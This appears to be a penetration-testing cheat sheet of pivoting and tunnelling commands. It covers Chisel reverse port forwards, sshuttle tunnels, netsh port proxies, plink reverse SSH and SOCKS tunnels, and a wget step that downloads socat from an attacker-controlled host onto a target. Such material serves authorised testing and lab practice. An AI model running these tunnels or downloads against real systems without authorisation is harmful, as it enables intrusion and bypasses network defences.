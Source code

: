 ## Create Chisel client remote port forward

```bash
./chisel client 10.10.14.5:8080 R:8082:localhost:3389
```

## Start sshuttle VPN tunnel

```bash
sshuttle -r user@$IP 192.168.1.0/24
```

## Start sshuttle with DNS forwarding

```bash
sshuttle -r user@$IP 192.168.1.0/24 --dns
```

## Create netsh Windows port forward

```cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=$IP
```

## List Windows netsh port forwards

```cmd
netsh interface portproxy show all
```

## Delete Windows netsh port forward

```cmd
netsh interface portproxy delete v4tov4 listenport=8080 listenaddress=0.0.0.0
```

## Create plink reverse SSH tunnel on Windows

```cmd
plink.exe -l user -pw password -R 8080:127.0.0.1:80 10.10.14.5
```

## Create plink dynamic SOCKS proxy on Windows

```cmd
plink.exe -l user -pw password -D 9050 10.10.14.5
```

## Upload socat to target for port forwarding

```bash
wget http://10.10.14.5/socat -O /tmp/socat
chmod +x /tmp/socat
```
